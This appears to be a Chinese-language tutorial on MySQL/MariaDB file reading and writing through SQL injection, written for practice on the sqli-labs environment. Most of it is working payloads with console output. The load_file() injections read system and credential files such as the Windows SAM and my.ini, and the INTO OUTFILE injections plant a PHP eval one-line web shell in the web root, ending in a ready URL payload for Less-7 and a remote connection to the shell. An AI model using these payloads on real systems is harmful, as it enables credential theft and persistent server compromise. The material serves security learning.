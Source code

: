 # SQL注入文件读写基础知识  
## 1. 读文件  

load_file(file_name):读取文件并返回该文件的内容作为一个字符串。  
使用条件：  
- A、必须有权限读取并且文件必须完全可读 
  - `and (select count(*) from mysql.user)>0/*` 如果结果返回正常,说明具有读写权限。  
  - `and (select count(*) from mysql.user)>0/*` 返回错误，应该是管理员给数据库帐户降权    
- B、欲读取文件必须在服务器上   
- C、必须指定文件完整的路径   
- D、欲读取文件必须小于 max_allowed_packet   

如果该文件不存在，或因为上面的任一原因而不能被读出，函数返回空。   
比较难满足的就是权限，在windows下，如果NTFS设置得当，是不能读取相关的文件的，当遇到只有administrators才能访问的文件，users就别想load_file出来。   
　

在实际的注入中，我们有两个难点需要解决：   
1. 绝对物理路径 
2. 构造有效的畸形语句 （报错爆出绝对路径）


在很多PHP程序中，当提交一个错误的Query，如果display_errors = on，程序就会暴露WEB目录的绝对路径，只要知道路径，那么对于一个可以注入的PHP程序来说，整个服务器的安全将受到严重的威胁。  
常用路径：
http://www.cnblogs.com/lcamry/p/5729087.html  

示例：  

`Select 1,2,3,4,5,6,7,hex(replace(load_file(char(99,58,92,119,105,110,100,111,119,115,92,114,101,112,97,105,114,92,115,97,109)))`

char中内容为：c:\windows\repair\sam  
利用hex()将文件内容导出来，尤其是smb文件时可以使用。  

`-1 union select 1,1,1,load_file(char(99,58,47,98,111,111,116,46,105,110,105))`  

Explain：“char(99,58,47,98,111,111,116,46,105,110,105)”就是“c:/boot.ini”的ASCII代码

`-1 union select 1,1,1,load_file(0x633a2f626f6f742e696e69) `  

Explain：“c:/boot.ini”的16进制是“0x633a2f626f6f742e696e69”

`-1 union select 1,1,1,load_file(c:\\boot.ini) `  

Explain:路径里的/用 \\\代替

练习示例：   
```
MariaDB [test]> select load_file("d:\\test.php");
+--------------------------------+
| load_file("d:\\test.php")      |
+--------------------------------+
| 10.1.9-MariaDB
this is  a test |
+--------------------------------+
1 row in set (0.03 sec)

MariaDB [test]> select hex(load_file("d:\\test.php"));
+--------------------------------------------------------------+
| hex(load_file("d:\\test.php"))                               |
+--------------------------------------------------------------+
| 31302E312E392D4D6172696144420A746869732069732020612074657374 |
+--------------------------------------------------------------+
1 row in set (0.00 sec)
MariaDB [test]> select load_file(0x643A5C5C746573742E706870);
+---------------------------------------+
| load_file(0x643A5C5C746573742E706870) |
+---------------------------------------+
| 10.1.9-MariaDB
this is  a test        |
+---------------------------------------+
1 row in set (0.00 sec)
```
d:\\\test.php 的16进制为 0x643A5C5C746573742E706870。

## 2. 文件导入到数据库  

**LOAD DATA INFILE**    语句用于高速地从一个文本文件中读取行，并装入一个表中。文件名称必须为一个文字字符串。  
在注入过程中，我们往往需要一些特殊的文件，比如配置文件，密码文件等。当你具有数据库的权限时，可以将系统文件利用load data infile导入到数据库中。   

基本语法：    
```
load data  [low_priority] [local] infile 'file_name txt' [replace | ignore]
into table tbl_name
[fields
[terminated by't']
[OPTIONALLY] enclosed by '']
[escaped by'\' ]]
[lines terminated by'n']
[ignore number lines]
[(col_name,   )]
```

示例：  
```
load data infile '/tmp/t0.txt' ignore into table t0 character set gbk fields terminated by '\t' lines terminated by '\n'
```

将/tmp/t0.txt导入到t0表中，character set gbk是字符集设置为gbk，fields terminated by是每一项数据之间的分隔符，lines terminated by 是行的结尾符。

当错误代码是2的时候的时候，文件不存在，错误代码为13的时候是没有权限，可以考虑/tmp等文件夹。

练习示例：   

```
MariaDB [test]> CREATE TABLE t2(name varchar(100));
Query OK, 0 rows affected (0.19 sec)

MariaDB [test]> load data infile 'd:\\test.php' into table t2;
Query OK, 1 row affected (0.03 sec)
Records: 1  Deleted: 0  Skipped: 0  Warnings: 0

MariaDB [test]> select * from t2;
+----------------+
| name           |
+----------------+
| 10.1.9-MariaDB |
+----------------+
1 row in set (0.00 sec)
```
表必须先存在，首先创建一张表，表为一列，类型为char，执行`load data infile 'd:\\test.php' into table t2;`     后可以将文件内容写入到该表中，内容添加到表后面。


## 3. 写文件

`SELECT.....INTO OUTFILE 'file_name'`

可以把被选择的行写入一个文件中。该文件被创建到服务器主机上，因此您必须拥有FILE权限，才能使用此语法。file_name不能是一个已经存在的文件。  

我们一般有两种利用形式：  
第一种直接将select内容导入到文件中，文件路径必须为已存在的路径，文件名不能存在：  

```
select version() into outfile "c:\\phpnow\\htdocs\\test.php"
```   
此处将version()替换成一句话，<?php @eval($_post[“mima”])?>也即 

```
select  <?php @eval($_post[“mima”])?>  into outfile "c:\\phpnow\\htdocs\\test.php"
```

直接连接一句话就可以了，其实在select内容中不仅仅是可以上传一句话的，也可以上传很多的内容。

第二种修改文件结尾：   

```
select version() Into outfile “c:\\phpnow\\htdocs\\test.php” LINES TERMINATED BY 0x16进制文件
```

解释：通常是用‘\r\n’结尾，此处我们修改为自己想要的任何文件。同时可以用FIELDS TERMINATED BY  16进制可以为一句话或者其他任何的代码，可自行构造。在sqlmap中os-shell采取的就是这样的方式，具体可参考os-shell分析文章：http://www.cnblogs.com/lcamry/p/5505110.html  

练习示例：    
```
MariaDB [test]> select version() into outfile "d:\\test2.php" LINES TERMINATED BY 0x3C3F70687020406576616C28245F706F73745BA1B06D696D61A1B15D293F3E;
Query OK, 1 row affected, 1 warning (0.01 sec)

test2.php内容为：
10.1.9-MariaDB<?php @eval($_post[“mima”])?>
```

TIPS：   
（1）可能在文件路径当中要注意转义，这个要看具体的环境  
（2）上述我们提到了load_file(),但是当前台无法导出数据的时候，我们可以利用下面的语句：    
```
select load_file(‘c:\\wamp\\bin\\mysql\\mysql5.6.17\\my.ini’)into outfile ‘c:\\wamp\\www\\test.php’
```

可以利用该语句将服务器当中的内容导入到web服务器下的目录，这样就可以得到数据了。上述my.ini当中存在password项（不过默认被注释），当然会有很多的内容可以被导出来，这个要平时积累。

## 4. 实践练习
```
?id=1')) union select 1,2,3 into outfile "C:\\xampp\\htdocs\\sqli-labs-php7\\Less-7\\7.php"--+
```
写一句话：     
```
?id=1')) union select 1,2,'<?php @eval($_POST["mima"])?>' into outfile "C:\\xampp\\htdocs\\sqli-labs-php7\\Less-7\\7.php"--+
```
即在Less-7目录下写入7.php文件。
用菜刀连接即可。
